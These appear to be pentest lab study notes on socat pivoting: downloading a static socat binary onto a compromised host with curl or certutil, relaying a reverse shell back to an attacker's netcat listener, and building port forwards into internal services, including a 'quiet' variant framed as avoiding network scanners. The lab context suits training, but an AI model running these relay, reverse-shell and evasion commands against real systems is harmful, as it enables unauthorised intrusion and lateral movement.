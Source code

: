 https://github.com/andrew-d/static-binaries/tree/master/binaries

https://github.com/3ndG4me/socat/releases

On Kali (inside the directory containing your Socat binary):

```bash - kali
sudo python3 -m http.server 80
```

Then, on the target:  
```
curl 192.168.111.133/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME
```

```
certutil -urlcache -split -f http://192.168.111.133/socatx64.exe
```


standard netcat listener on our attacking box 

![[1._rlwrap]]

Next, on the compromised server, use the following command to start the relay:  

```
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
```

_**Note:** the order of the two addresses matters here. Make sure to open the listening port first,_ then _connect back to the attacking machine._

From here we can then create a reverse shell to the newly opened port 8000 on the compromised server. This is demonstrated in the following screenshot, using netcat on the remote server to simulate receiving a reverse shell from the target server:


A brief explanation of the above command:

-   `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
-   `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
-   `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

The relay connects back to a listener started using an alias to a standard netcat listener: `sudo rlwrap -cAr nc -lvnp 443`.


**Port Forwarding -- Easy**

The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server. For example, if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:  
```
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &  
```

This opens up port 33060 on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of 172.16.0.10. The `fork` option is used to put every connection into a new process, and the `reuseaddr` option means that the port stays open after a connection is made to it. Combined, they allow us to use the same port forward for more than one connection. Once again we use `&` to background the shell, allowing us to keep using the same terminal session on the compromised server for other things.

We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.


**Port Forwarding -- Quiet**

The previous technique is quick and easy, but it also opens up a port on the compromised server, which could potentially be spotted by any kind of host or network scanning. Whilst the risk is not _massive_, it pays to know a slightly quieter method of port forwarding with socat. This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

First of all, on our own attacking machine, we issue the following command:  
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the `fork` and `reuseaddr` options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:  
`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &  
`

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:  
`./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &  
`

This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to `localhost:8000` in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!

This is quite a complex scenario to visualise, so let's quickly run through what happens when you try to access the webpage in your browser:

-   The request goes to `127.0.0.1:8000`
-   Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001
-   Port 8001 is connected directly to the socat process we ran on the compromised server, meaning that anything coming out of port 8001 gets sent to the compromised server, where it gets relayed to port 80 on the target server.

The process is then reversed when the target sends the response:

-   The response is sent to the socat process on the compromised server. What goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.
-   Anything that goes into port 8001 on our attacking machine comes out of port 8000 on our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered.

We have now achieved the same thing as previously, but without opening any ports on the server!
